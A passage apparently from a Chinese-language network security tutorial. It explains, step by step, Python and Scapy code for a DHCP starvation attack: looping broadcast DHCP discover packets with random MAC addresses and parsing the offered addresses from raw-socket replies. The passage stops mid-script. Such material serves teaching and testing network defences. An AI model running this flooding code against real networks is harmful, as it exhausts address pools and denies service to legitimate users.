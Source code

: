 在前面的屏幕截图中，租约显示为六小时。

让我们看看代码；这有点难理解，所以我把它分成了不同的部分，并解释了每个部分：

*   按如下方式导入基本库和模块：

```py
      from scapy.all import *
      import time
      import socket
      import struct
```

*   创建原始套接字以接收 IP 数据包，如下所示：

```py
      s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0800))
      i = 1
```

*   使用 while 循环连续发送数据包：

```py
      while True:
```

*   使用 Scapy 创建以太网和 IP 数据包，如下所示：

```py
    eth1 = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")
    ip1 = IP(src="0.0.0.0",dst="255.255.255.255")
```

*   使用 Scapy 创建 UDP 和 bootp 数据包，如下所示：

```py
    udp1= UDP(sport=68,dport=67)
    bootp1= BOOTP(chaddr=RandString(12,'0123456789abcdef'))
```

*   创建 DHCP 发现和 DHCP 请求数据包，如下所示：

```py
    dhcp1 = DHCP(options=[("message-type","discover"),"end"])
    dhcp2 = DHCP(options=[("message-type","request")])
    dhcp_discover = eth1/ip1/udp1/bootp1/dhcp1
    dhcp_discover[BOOTP].xid= 123456
```

*   只需使用 Scapy 发送 DHCP discover 数据包，并使用原始套接字接收响应，如下所示：

```py
    sendp(dhcp_discover)
    pkt = s.recvfrom(2048)
    num = pkt[0][14].encode('hex')
    ip_length = (int(num) % 10) * 4
    ip_last_range = 14 + ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    server_ip = socket.inet_ntoa(ip_hdr[1])
    obtained_ip = socket.inet_ntoa(ip_hdr[2])

```
